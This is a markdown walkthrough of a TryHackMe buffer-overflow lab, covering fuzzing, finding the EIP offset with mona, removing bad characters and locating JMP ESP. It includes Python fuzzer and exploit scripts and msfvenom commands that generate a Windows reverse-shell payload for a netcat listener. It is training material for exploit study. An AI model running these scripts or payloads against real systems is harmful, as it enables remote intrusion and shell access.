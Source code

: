 # Process for Buffer Overflow
(Original source for this awesome tutorial: **Tib3rius** https://tryhackme.com/room/bufferoverflowprep )

## Summary of the process

- Crash The Application 
	1. fuzz.py (with while loop and without while loop)
	2. fuzz-http.py
- Find EIP 
	1. msf-pattern_create -l xxxx  
	2. msf-pattern_offset -l xxxx -q (xxxxxxxx)
	3. Mona commands
		- !mona config -set workingfolder c:\mona\%p
		- !mona findmsp -distance xxxx
		- !mona modules
- Controlling EIP
	1. return address - BBBB
	2. control-eip.py
- Identify Bad Characters
	1. for exploit.py -> bytearray.sh '\x00'
	2. Mona commands
		- !mona bytearray -b "\x00"
		- !mona compare -f C:\mona\oscp\bytearray.bin -a
- Find JMP ESP - msf-nasm_shell 
	1. nasm > jmp esp - FFE4 
		- !mona find -s "\xff\xe4" -m "modulename"
	3. nasm > jmp eax - FFE0 
		- !mona find -s "\xff\xe0" -m "modulename"
	5. nasm > jmp edx - FFE2 
		- !mona find -s "\xff\xe2" -m "modulename"
- Generate Shell Code
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00\x0a" -f py
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"
- Exploit
	- final-exploit.py

## Detailed process
### connecting to process 
```nc -nv MACHINE_IP 1337```

### setting mona working folder
`!mona config -set workingfolder c:\mona\%p`


### Fuzzing 

`python2 fuzzer.py`
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

### Crash Replication & Controlling EIP

`python2 exploit.py`

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### offset

`msf-pattern_create -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

`python exploit.py`

After crach use following command

`!mona findmsp -distance 600`

Mona should display a `log window` with the output of the command/

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the `retn variable to "BBBB"`.

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).


### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```!mona bytearray -b "\x00"```

`you can use the following python code as well`
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.


```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>```

A popup window should appear labelled "mona Memory comparison results". Generate a new bytearray in mona, specifying these new badchars along with \x00.

Example as below
```!mona bytearray -b "\x00\x07\xa0"```


### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with **all the badchars** you identified (including \x00):

```!mona jmp -r esp -cpb "\x00"```

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.


### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with **all the badchars** you identified (including \x00):

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v payload```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

**remove the preceding "b" in the var**

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```padding = "\x90" * 16```

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

